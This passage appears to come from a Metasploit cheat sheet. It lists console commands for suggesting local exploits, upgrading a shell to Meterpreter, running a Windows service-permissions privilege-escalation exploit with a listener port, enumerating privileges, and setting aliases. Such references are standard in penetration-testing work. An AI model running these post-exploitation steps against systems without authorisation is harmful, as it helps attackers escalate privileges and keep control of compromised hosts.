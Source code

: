 ```ruby
run
```
#### Local Exploit Suggester
```ruby
use post/multi/recon/local_exploit_suggester
set SESSION 1
```

#### Upgrade Shell to Meterpreter
```ruby
use post/multi/manage/shell_to_meterpreter
set SESSION 1
```

### Privilege Escalation

#### Service

```ruby
use exploit/windows/local/service_permissions
run lhost=0.0.0.0 lport=12222
```


#### UAC Enumeration

```ruby
use post/windows/gather/win_privs
set SESSION 1
```

## Plugins

### Alias

```ruby
load alias
alias s set
alias sg setg
```

#### Aliases


| Alias | Command  |
| ----- | -------- |
| sr    | search   |
| s     | set      |
| sg    | setg     |
| r     | run      |
| u     | use      |
| o     | options  |
| a     | alias    |
| adv   | advanced |
| rc    | resource |
